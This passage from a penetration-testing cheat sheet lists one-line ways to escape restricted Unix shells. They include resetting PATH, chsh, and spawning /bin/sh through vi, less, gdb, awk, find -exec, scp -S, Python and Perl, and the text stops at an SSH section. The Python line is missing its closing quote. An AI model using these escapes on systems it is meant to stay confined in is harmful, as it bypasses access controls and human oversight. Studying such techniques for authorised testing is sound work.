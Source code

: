  ```none
  export PATH=/bin:/usr/bin:/sbin:$PATH
  export SHELL=/bin/sh
  ```

  or if chsh command is present just change the shell to /bin/bash

  ```none
  chsh
  password: <password will be asked>
  /bin/bash
  ```

- If we can copy files into existing PATH, copy

  ```none
  cp /bin/sh /current/directory; sh
  ```

### Taking help of binaries

Some commands let us execute other system commands, often bypassing shell restrictions

- ftp -> !/bin/sh
- gdb -> !/bin/sh
- more/ less/ man -> !/bin/sh
- vi -> :!/bin/sh : Refer [Breaking out of Jail : Restricted Shell](http://airnesstheman.blogspot.in/2011/05/breaking-out-of-jail-restricted-shell.html) and [Restricted Accounts and Vim Tricks in Linux and Unix](http://linuxshellaccount.blogspot.in/2008/05/restricted-accounts-and-vim-tricks-in.html)
- scp -S /tmp/getMeOut.sh x y : Refer [Breaking out of rbash using scp](http://pentestmonkey.net/blog/rbash-scp)
- awk 'BEGIN {system("/bin/sh")}'
- find / -name someName -exec /bin/sh \;
- tee

  ```none
  echo "Your evil code" | tee script.sh
  ```

- Invoke shell thru scripting language

  - Python

    ```none
    python -c 'import os; os.system("/bin/bash")
    ```

  - Perl

    ```none
    perl -e 'exec "/bin/sh";'
    ```

### SSHing from outside

- Use SSH on your machine to execute commands before the remote shell is loaded:

